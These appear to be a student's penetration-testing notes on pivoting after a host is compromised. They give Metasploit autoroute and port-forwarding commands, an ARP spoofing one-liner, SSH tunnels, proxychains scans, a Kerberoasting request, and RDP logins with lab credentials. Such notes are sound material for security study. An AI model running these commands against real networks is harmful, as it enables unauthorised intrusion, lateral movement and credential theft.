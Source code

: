 # 7. Pivoting
privoting throughn metasploit is dengarus

*   Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host’s private internal network. 
*   After gaining access to one host, we can use the compromised host to exploit other hosts on a private internal network to which we could not access previously.

_**Port Forwarding**_

*   Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.
*   In the context of pivoting, we can forward a remote port on a previously inaccessible host to a local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port.

_**Pivoting Visualized**_

![](7. Pivoting_image.png)

_**Internal network find**_

*   Set up IP Routing and Routing Tables
    *   `ip route` - prints the routing table for the host you are on
    *   `ip route add ROUTETO via ROUTEFROM` - add a route to a new network if on a switched network and you need to pivot
*   meterpreter
    *   `ifconfig` to check different types of network interfaces like eth0, eth1 on the target pc
    *   `run autoroute -s <private network ip : 10.10.12.0/24>` - private network route add in meterpreter
    *   `run autoroute -p`
    *   `background`
*   tcp scan on private network other devices
    *   `search portscan`
*   nmap port scan need port forwarding 
    *   meterpreter (sesion 1) > `portfwd add -l <lport> -p <rport> -r <rhost>`
    *   `portftw list`
    *   `db_nmap -sS -sV -p <localport> -p localhost`
    *   `nmap -sV -p <localport> localhost`
        *   nmap -sV -p 1080 localhost
    *   search exploit
        *   `set payload windows/meterpreter/bind_tcp`

ARP Spoofing

*   echo 1 > /proc/sys/net/ipv4/ip\_forward
*   arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

SSH Tunneling/Port Forwarding

*   local port forwarding
*   the target host 192.168.0.100 is running a service on port 8888
*   and you want that service available on the localhost port 7777
*   `ssh -L 7777:localhost:8888 user@192.168.0.100`
*   remote port forwarding
*   you are running a service on localhost port 9999 
*   and you want that service available on the target host 192.168.0.100 port 12340
*   `ssh -R 12340:localhost:9999 user@192.168.0.100`
*   Local proxy through remote host
*   You want to route network traffic through a remote host target.host
*   so you create a local socks proxy on port 12001 and configure the SOCKS5 settings to localhost:12001
*   `ssh -C2qTnN -D 12001` [`user@target.host`](mailto:user@target.host)
*   with proxychain
    *   `ssh -f -N -D 9050 -i pivot root@10.10.10.5` 
        *   \-f - backgroound
        *   \-N - do not want to execute remote commands, it for port forwarding
        *   \-D - where do we watn to bind the port for port forwarding
    *   run nmap with port forwarding
        *   `proxychains nmap -p88 10.10.10.5`
        *   `proxychains nmap 10.10.10.5`
            *   ![](1_7. Pivoting_image.png)
                
    *   Run Attacks
        *   `proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <ip> -request` - Krberosting attack
    *   `proxychains xfreerdp /u:administrator /p:'Password123' /v:100.100.100.5`
    *   `proxychains firefox` - firefox run through proxychain

ProxyChain

*   `/etc/proxychains.conf` - proxy chain configuration file

Tools

*   sshttle
    *   `sudo apt install sshuttle`
    *   `sshuttle -r root@10.10.155.5  10.10.10.0/24 --ssh-cmd “ssh -i privot”`
        *   `nmap 10.10.10.225 -p88` 
*   Chisel
